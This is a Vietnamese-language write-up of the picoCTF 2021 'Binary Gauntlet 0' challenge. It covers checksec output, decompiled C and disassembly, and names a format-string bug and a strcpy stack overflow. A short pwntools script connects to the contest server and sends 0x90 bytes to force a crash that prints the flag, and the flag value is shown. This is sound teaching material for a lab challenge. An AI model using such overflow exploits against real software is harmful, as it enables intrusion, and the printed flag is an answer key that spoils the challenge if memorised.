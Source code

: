 # Binary Gauntlet 0

## Kiểm tra file
### file
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a5c4ce8cddd5ece25b706af8d250134c3f70467c, not stripped
```
### checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
- Định dạng ELF 64-bit
- Not stripped -> Ta có thể dễ dàng tìm được các hàm trong chương trình
- No Stack Canary, no NX, no PIE, has RWX segments -> Easy BOF
## Decompile & Disassemble
### Decompile `main`
```c
undefined8 main(void)
{
  char local_88 [108];
  __gid_t local_1c;
  FILE *local_18;
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
        );
    exit(0);
  }
  fgets(flag,0x40,local_18);
  signal(0xb,sigsegv_handler);
  local_1c = getegid();
  setresgid(local_1c,local_1c,local_1c);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_88,local_10);
  return 0;
}
```
### Decompile `sigsegv_handler`
```C
void sigsegv_handler(void)
{
  fprintf(stderr,"%s\n",flag);
  fflush(stderr);               
  exit(1);
}
```
Hàm `sigsegv_handler` sẽ in ra flag. Khi hàm `signal` được gọi, nó sẽ thực thi `sigsegv_handler`. Vậy chỉ cần làm cho chương trình báo lỗi, ta sẽ có được flag.

Chương trình nhận vào 1 input rồi in input đó ra màn hình, sau đó nhận input thứ 2 rồi gọi hàm `strcpy`.
Có 2 lỗi ở hàm main:
1. `printf(local_10)` -> Lỗi chuỗi định dạng (Format String)
2. `strcpy(local_88, local_10)` -> `strcpy` không kiểm tra số lượng kí tự ở dest -> Tràn bộ đệm tại dest nếu không được cấp phát đủ vùng nhớ để chứa chuỗi src (Buffer Overflow)

Vậy bài này có 2 hướng khai thác, nhưng vì người viết chương trình đã tốt bụng tắt hết các cơ chế bảo vệ, chúng ta sẽ dùng cách gây tràn vùng nhớ biến local_88 vì nó được đặt trong stack, dễ dàng ghi đè return address và gây lỗi.
### Disassemble `main`
```asm
0x000000000040090d <+0>:	push   rbp
0x000000000040090e <+1>:	mov    rbp,rsp
0x0000000000400911 <+4>:	sub    rsp,0x90
0x0000000000400918 <+11>:	mov    DWORD PTR [rbp-0x84],edi
0x000000000040091e <+17>:	mov    QWORD PTR [rbp-0x90],rsi
0x0000000000400925 <+24>:	mov    edi,0x3e8
0x000000000040092a <+29>:	call   0x400790 <malloc@plt>
0x000000000040092f <+34>:	mov    QWORD PTR [rbp-0x8],rax
0x0000000000400933 <+38>:	lea    rsi,[rip+0x192]        # 0x400acc
0x000000000040093a <+45>:	lea    rdi,[rip+0x18d]        # 0x400ace
0x0000000000400941 <+52>:	call   0x4007c0 <fopen@plt>
0x0000000000400946 <+57>:	mov    QWORD PTR [rbp-0x10],rax
0x000000000040094a <+61>:	cmp    QWORD PTR [rbp-0x10],0x0
0x000000000040094f <+66>:	jne    0x400967 <main+90>
0x0000000000400951 <+68>:	lea    rdi,[rip+0x180]        # 0x400ad8
0x0000000000400958 <+75>:	call   0x400730 <puts@plt>
0x000000000040095d <+80>:	mov    edi,0x0
0x0000000000400962 <+85>:	call   0x4007d0 <exit@plt>
0x0000000000400967 <+90>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040096b <+94>:	mov    rdx,rax
0x000000000040096e <+97>:	mov    esi,0x40
0x0000000000400973 <+102>:	lea    rdi,[rip+0x200766]        # 0x6010e0 <flag>
0x000000000040097a <+109>:	call   0x400760 <fgets@plt>
0x000000000040097f <+114>:	lea    rsi,[rip+0xffffffffffffff41]        # 0x4008c7 <sigsegv_handler>
0x0000000000400986 <+121>:	mov    edi,0xb
0x000000000040098b <+126>:	call   0x400770 <signal@plt>
0x0000000000400990 <+131>:	mov    eax,0x0
0x0000000000400995 <+136>:	call   0x4007b0 <getegid@plt>
0x000000000040099a <+141>:	mov    DWORD PTR [rbp-0x14],eax
0x000000000040099d <+144>:	mov    edx,DWORD PTR [rbp-0x14]
0x00000000004009a0 <+147>:	mov    ecx,DWORD PTR [rbp-0x14]
0x00000000004009a3 <+150>:	mov    eax,DWORD PTR [rbp-0x14]
0x00000000004009a6 <+153>:	mov    esi,ecx
0x00000000004009a8 <+155>:	mov    edi,eax
0x00000000004009aa <+157>:	mov    eax,0x0
0x00000000004009af <+162>:	call   0x400740 <setresgid@plt>
0x00000000004009b4 <+167>:	mov    rdx,QWORD PTR [rip+0x2006f5]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x00000000004009bb <+174>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009bf <+178>:	mov    esi,0x3e8
0x00000000004009c4 <+183>:	mov    rdi,rax
0x00000000004009c7 <+186>:	call   0x400760 <fgets@plt>
0x00000000004009cc <+191>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009d0 <+195>:	add    rax,0x3e7
0x00000000004009d6 <+201>:	mov    BYTE PTR [rax],0x0
0x00000000004009d9 <+204>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009dd <+208>:	mov    rdi,rax
0x00000000004009e0 <+211>:	mov    eax,0x0
0x00000000004009e5 <+216>:	call   0x400750 <printf@plt>
0x00000000004009ea <+221>:	mov    rax,QWORD PTR [rip+0x2006af]        # 0x6010a0 <stdout@@GLIBC_2.2.5>
0x00000000004009f1 <+228>:	mov    rdi,rax
0x00000000004009f4 <+231>:	call   0x4007a0 <fflush@plt>
0x00000000004009f9 <+236>:	mov    rdx,QWORD PTR [rip+0x2006b0]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x0000000000400a00 <+243>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a04 <+247>:	mov    esi,0x3e8
0x0000000000400a09 <+252>:	mov    rdi,rax
0x0000000000400a0c <+255>:	call   0x400760 <fgets@plt>
0x0000000000400a11 <+260>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a15 <+264>:	add    rax,0x3e7
0x0000000000400a1b <+270>:	mov    BYTE PTR [rax],0x0
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
0x0000000000400a31 <+292>:	mov    eax,0x0
0x0000000000400a36 <+297>:	leave  
0x0000000000400a37 <+298>:	ret    
```
Gọi hàm `strcpy`
```asm
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
```
Biến local_88 nằm ở [rbp - 0x80]. Chúng ta cần 0x90 bytes để ghi đè return address và gây `sigsegv`

## Exploit
### exploit.py
```python
from pwn import *

context.binary = ELF("./gauntlet")
run = remote("mercury.picoctf.net", 12294)

run.sendline("Pwned")
payload = 'A' * 0x90
run.sendline(payload)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-0/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 12294: Done
[*] Switching to interactive mode
Pwned
fbd01d62c0e369e6de3d63b4b21d3830

[*] Got EOF while reading in interactive
$ 
```
